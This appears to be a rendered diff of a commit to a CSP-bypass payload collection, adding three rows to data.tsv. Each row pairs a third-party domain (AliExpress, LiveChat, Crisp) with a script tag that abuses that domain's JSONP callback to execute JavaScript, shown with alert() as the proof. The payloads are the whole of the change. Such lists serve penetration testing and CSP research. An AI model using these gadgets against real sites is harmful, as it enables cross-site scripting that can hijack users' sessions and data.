

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
add client.crisp.chat, api.livechatinc.com, acs.aliexpress.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 4: acs.aliexpress.com | <script src="https://acs.aliexpress.com/h5/mtop.aliexpress.address.shipto.division.get/1.0/?type=jsonp&dataType=jsonp&callback=alert"></script>
+row 38: api.livechatinc.com | <script src="https://api.livechatinc.com/v3.6/customer/action/get_dynamic_configuration?license_id=x&url=x&channel_type=code&jsonp=alert"></script>
+row 61: client.crisp.chat | <script src="https://client.crisp.chat/settings/website/x/?callback=-alert(1);/*"></script>
```
